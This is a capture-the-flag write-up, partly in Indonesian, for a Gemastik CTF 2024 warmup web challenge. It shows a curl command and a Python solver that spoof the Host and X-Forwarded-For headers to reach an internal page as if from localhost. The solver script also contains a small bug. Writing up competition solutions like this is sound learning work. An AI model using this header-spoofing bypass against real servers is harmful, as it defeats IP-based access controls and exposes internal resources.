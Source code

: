 ```yaml
---
description: Gemastik CTF 2024 (UNNES) warmup writeup.
cover: >-
  https://images.unsplash.com/photo-1597733336794-12d05021d510?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwzfHxuZXR3b3JrfGVufDB8fHx8MTc0MDg3NTc3Mnww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# Warmup

## 1. Internal Page (Web - Easy)

### 1.1. Description

* Basically, challenge ini seperti judulnya, yaitu pemanasan dengan melakukan request ke internal domain dari website challenge gemastik.
* Dengan tambahan HTTP header `X-Forwarded-For`, kita bisa memanipulasi request supaya bisa seolah-olah request dari localhost.

### 1.2. POC using cURL

{% code overflow="wrap" %}
```bash
curl -H "Host: internal.gemastik" -H "X-Forwarded-For: 127.0.0.1" ctf.gemastik.id:9005
```
{% endcode %}

### 1.3. POC using Python

{% code title="solver.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/local/python/3.13.1/bin/python3.13.1

import requests

URL: str = "http://ctf.gemastik.id:9005"
headers: dict = {"Host": "internal.gemastik.puspresnas.go.id", "X-Forwarded-For": "127.0.0.1"}

response: str = requests.get(URL, headers=headers)
status_code: int = response.status_code
if status_code == 200:
	print(response.txt)
	print(response.headers)
else:
	print("Failed!")
```
{% endcode %}

## Other Warmup Challenges

All warmup challenges can be see at the following url:

[https://oto.lv.tab.digital/s/sSwGJYxbYdrj3qN](https://oto.lv.tab.digital/s/sSwGJYxbYdrj3qN)

***

**Tags**: #ctf, #web-exploitation, #warmup

